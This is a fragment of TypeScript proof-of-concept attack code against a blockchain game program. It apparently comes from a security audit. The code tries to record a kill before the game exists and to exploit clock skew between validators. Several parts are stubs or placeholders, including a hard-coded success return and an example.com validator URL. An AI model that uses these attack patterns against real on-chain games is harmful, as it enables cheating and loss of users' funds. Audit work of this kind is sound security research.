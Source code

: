 ```typescript
                    this.attackerKeypair.publicKey,
                    1,
                    this.victimKeypair.publicKey
                )
                .accounts({
                    gameSession: this.getSessionPDA(sessionId),
                    gameServer: this.gameServerKeypair.publicKey,
                })
                .signers([this.gameServerKeypair])
                .rpc();

            console.log("Kill recorded before game creation");
        } catch (error) {
            console.log("Temporal ordering attack blocked:", error);
        }

        // Then create the game
        await this.createGame(sessionId);

        console.log("Game created after kill was recorded");
    }

    async exploitClockSkew(): Promise<void> {
        // 6. Exploit clock differences between validators
        // This would require coordination with validators or
        // exploiting network time synchronization issues

        const gamesWithSkewedTime = [];

        for (let i = 0; i < 10; i++) {
            const sessionId = `skewed_game_${i}`;

            // Submit to different validators with potentially different clocks
            const result = await this.submitToSpecificValidator(
                sessionId,
                this.getValidatorWithClockSkew()
            );

            if (result.success) {
                gamesWithSkewedTime.push(sessionId);
            }
        }

        console.log(`Created ${gamesWithSkewedTime.length} games with clock skew`);
    }

    private async submitToSpecificValidator(sessionId: string, validatorUrl: string): Promise<any> {
        // Connect to specific validator with potentially skewed clock
        const connection = new Connection(validatorUrl);

        // Submit transaction to this specific validator
        // Timestamp will be based on validator's clock
        // Could create temporal inconsistencies

        return { success: true }; // Simplified
    }

    private getValidatorWithClockSkew(): string {
        // Return URL of validator known to have clock skew
        return "https://skewed-validator.example.com";
    }
}
```